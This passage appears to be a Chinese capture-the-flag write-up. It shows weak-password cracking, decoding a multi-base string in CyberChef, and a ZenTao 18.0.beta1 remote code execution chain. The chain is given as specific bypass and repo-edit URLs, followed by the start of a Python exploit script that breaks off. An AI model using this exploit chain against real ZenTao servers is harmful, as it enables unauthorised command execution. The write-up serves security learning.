 登录后发现在后台的一个功能模块藏着?，使用cyberchef的魔法棒就能解出来，但是最后没交上，差几秒?

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-9228875db24ee00dba8e96a78da5d52da262d698.png)

cmd5查询得到Passw0rd弱口令密码，这里应该是要我们猜到这个弱口令，看来我是曲线救国了。

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-f34357d806984ffcc7493d2ccb219a8a1c01b38c.png)

在一个功能模块下面，有一串加密字符串：

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-fa6ad30017a30845e56567c0aa5144d84f71e38c.png)

扔到cyberchef自动检测，点击魔方棒，自动进行解密，是多种base加密的组合：

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-b26e47163e474b13627c3458d5e1f2ca700459ff.png)

### flag02-禅道18.0.beta1-RCE

参考上面的禅道18.0.beta1-RCE文章进行RCE后，可以在/var/www/html目录下面翻到flag02；

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-397248957fe960ebcbe608da74444520f096d8c6.png)

禅道18.0.beta1-RCE总的exp如下，我来解释一下大致的原理；

- 首先是通过/index.php?m=misc&amp;f=captcha&amp;sessionVar=user路由进行了权限的绕过；
- 然后是根据路由/index.php?m=block&amp;f=printBlock&amp;id=1&amp;module=my判断是否绕过成功；
- 之后根据路由/index.php?m=repo&amp;f=create&amp;objectID=0&amp;tid=rmqcl0ss进行POST请求数据创建代码库；
- 最后是在/index.php?m=repo&amp;f=edit&amp;repoID=8&amp;objectID=0&amp;tid=rmqcl0ss路由进行POST恶意数据，具体是在client参数里，就可以远程执行命令了。

```php
import requests

​

proxies \= {

    # "http": "127.0.0.1:8080",

    # "https": "127.0.0.1:8080",

}

​

​

def check(url):

    # url1 \= url + '/misc-captcha-user.html'

    url1 \= url+'/index.php?m=misc&f=captcha&sessionVar=user'#非伪静态版本按照此格式传参

    url2 \= url+'/index.php?m=block&f=printBlock&id=1&module=my'#可判断验证绕过的链接

    # url3 \= url + '/repo-create.html'

    url3 \= url + '/index.php?m=repo&f=create&objectID=0&tid=rmqcl0ss'

    # url4 \= url + '/repo-edit-10000-10000.html'

    url4 \= url + '/index.php?m=repo&f=edit&repoID=8&objectID=0&tid=rmqcl0ss'

    headers \= {

```